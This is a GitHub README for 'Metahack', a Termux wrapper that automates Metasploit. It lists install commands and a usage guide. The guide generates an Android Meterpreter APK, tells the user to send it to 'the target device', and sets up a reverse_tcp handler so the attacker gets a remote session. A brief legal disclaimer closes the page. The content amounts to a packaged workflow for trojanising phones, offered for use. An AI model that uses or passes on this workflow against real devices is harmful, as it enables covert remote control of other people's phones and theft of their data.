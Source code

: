 #  Metahack - Advanced Metasploit Automation Tool  
<p align="center">
  <img src="https://img.shields.io/github/stars/HYDRA-TERMUX/Metahack?style=for-the-badge" alt="GitHub Repo stars">
  <img src="https://img.shields.io/github/forks/HYDRA-TERMUX/Metahack?style=for-the-badge" alt="GitHub forks">
  <img src="https://img.shields.io/github/issues/HYDRA-TERMUX/Metahack?style=for-the-badge" alt="GitHub issues">
  <img src="https://img.shields.io/github/license/HYDRA-TERMUX/Metahack?style=for-the-badge" alt="GitHub license">
</p>

🚀 **Metahack** is a **powerful penetration testing tool** that automates Metasploit in Termux. It helps ethical hackers and cybersecurity professionals **generate payloads, automate exploits, and manage sessions easily**. Whether you’re a beginner or an expert, Metahack simplifies Metasploit usage and boosts efficiency.  

---

## 🚀 Features  

✅ **Automated Metasploit Setup** – No manual installation needed!  
✅ **One-Click Payload Generator** – Easily create payloads for Android, Windows, and Linux.  
✅ **Pre-Configured Exploits** – Execute common Metasploit exploits effortlessly.  
✅ **Session Management** – Monitor and control active Meterpreter sessions.   
✅ **User-Friendly Interface** – Simple CLI with guided steps.  

---

## 📌 Requirements  

Before using Metahack, ensure you have:  
- ✅ **Android device** with **Termux** installed.  
- ✅ At least **1GB of free storage**.  
- ✅ **Stable internet connection** for downloading dependencies.  
- ✅ Basic understanding of Metasploit Framework (MSF).  

---

## 🛠 Installation  

To install Metahack on Termux, run the following commands:  

```bash
pkg update && pkg upgrade -y  
pkg install git python curl -y  
git clone https://github.com/HYDRA-TERMUX/Metahack  
cd Metahack  
chmod +x install.sh  
bash install.sh 
```

After installation, launch the tool with:  

```bash
bash metarun.sh
```

🔹 **Metahack will handle Metasploit installation and setup automatically!**  

---

## 🎯 Usage Guide  

### 🔹 Generate an Android Payload  

1. Select **Payload Generator** from the main menu.  
2. Enter the target **LHOST (your IP address)**.  
3. Enter the **LPORT (listening port)**.  
4. The payload APK will be generated and saved in the `output` folder.  
5. Send the APK to the target device and start the listener in Metasploit:  

```bash
msfconsole -q  
use exploit/multi/handler  
set payload android/meterpreter/reverse_tcp  
set LHOST <Your-IP>  
set LPORT <Port>  
exploit  
```

### 🔹 Start Metasploit Console  

Metahack allows you to launch Metasploit directly:  

```bash
bash metarun.sh --msf
```

### 🔹 Automate Exploits  

Run pre-configured Metasploit scripts for automated attacks:  

```bash
bash metarun.sh --exploit android
```
## 📥One-Click Payload Generator

![Metahack Screenshot](IMG/website.jpg)

---

## 📸 Screenshots  

![Metahack Screenshot](IMG/user_int.jpg)


---

## ⚠️ Legal Disclaimer  

🚨 **Warning!** Metahack is a tool for **ethical hacking, penetration testing, and educational purposes only**.  
🚫 Unauthorized access to devices, networks, or systems **without permission is illegal**.  
📜 The developer is **not responsible for any misuse or illegal activities** performed using this tool.  

---

## 💡 Contributing  

Want to improve Metahack? We welcome contributions!  

1. **Fork the repository** on GitHub.  
2. **Create a new branch** for your changes.  
3. **Make improvements** (bug fixes, features, etc.).  
4. **Submit a pull request** with a detailed explanation.  

---

## 📬 Contact & Support  

📩 **Developer:** HYDRA TERMUX  
🐞 **Report Bugs:** Open an [issue](https://github.com/HYDRA-TERMUX/Metahack/issues).  
⭐ **Like this project?** Give it a **star** on GitHub!  

---

<p align="center">
  <img src="https://profile-counter.glitch.me/HYDRA-TERMUX/count.svg" />
</p>

### 🚀 **Turn your Android into a powerful hacking machine with Metahack!**  
[![Download Metahack](https://img.shields.io/badge/Download-Metahack-blue?style=for-the-badge)](https://github.com/HYDRA-TERMUX/Metahack/archive/refs/heads/main.zip)


